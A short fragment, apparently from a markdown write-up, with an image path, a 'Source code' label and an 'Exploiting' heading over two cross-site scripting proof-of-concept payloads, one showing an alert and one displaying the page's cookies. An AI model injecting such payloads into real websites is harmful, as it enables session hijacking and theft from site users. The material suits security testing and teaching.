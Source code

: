 ## Exploiting 

```
<script>alert('XSS Success')</script>
<script>alert('Cookie:'+document.cookie)</script>
```
